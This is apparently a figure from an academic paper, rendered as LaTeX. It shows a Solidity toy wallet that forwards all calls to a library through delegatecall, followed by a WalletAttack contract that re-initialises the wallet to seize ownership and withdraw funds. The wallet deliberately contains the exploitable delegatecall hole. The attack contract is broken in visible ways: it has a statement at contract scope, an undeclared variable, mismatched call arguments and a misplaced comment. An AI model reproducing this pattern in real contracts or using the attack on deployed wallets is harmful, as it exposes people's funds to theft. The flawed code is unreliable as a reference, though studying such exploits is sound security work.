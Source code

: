 \documentclass{llncs}
\begin{document}
\begin{itemize}
\begin{itemize}
\begin{minipage}{.5\textwidth}
{\begin{verbatim}
	    function changeOwner(address _new_owner) external {
	        if (msg.sender == owner) {
	        owner = _new_owner;
	    }}
	    
	    function () payable {
	    // ... receive money, log events, ...
	    }
	    
	    function withdraw(uint amount) external returns (bool success) {
	        if (msg.sender == owner) {
	            return owner.send(amount);
	        } else {
	            return false;
	}}}
	
	//the toy wallet calling the walletlibrary.
	contract ToyWallet {
	    address _walletLibrary;
	    address owner;
	    function ToyWallet(address _owner) {
	        // replace the following line with “_walletLibrary = new ToyWalletLibrary();”
	        // if you want to try to exploit this contract in Remix.
	        _walletLibrary = <address of pre-deployed ToyWalletLibrary>;
	        _walletLibrary.delegatecall(bytes4(sha3("initWallet(address)")), _owner);
	    }
	    function withdraw(uint amount) returns (bool success) {
	        return _walletLibrary.delegatecall(bytes4(sha3("withdraw(uint)")), amount);
	    }
	    // fallback function gets called if no other function matches call
	    function () payable {
	        _walletLibrary.delegatecall(msg.data);
	}}
	
	contract WalletAttack{
	    address wallet;
	    // replace the following line with “_walletLibrary = new ToyWalletLibrary();”
	    wallet = <address of pre-deployed ToyWallet>;
	    function WalletAttack(){
	        wallet.initWallet(this.address,"anynumber","anynumber");
	    }
	    function withdraw(uint amount){
	        owner.send(amount);
	}}	
	
	\end{verbatim} }
	\end{minipage}
	
	\end{itemize}

\end{itemize}
\end{document}
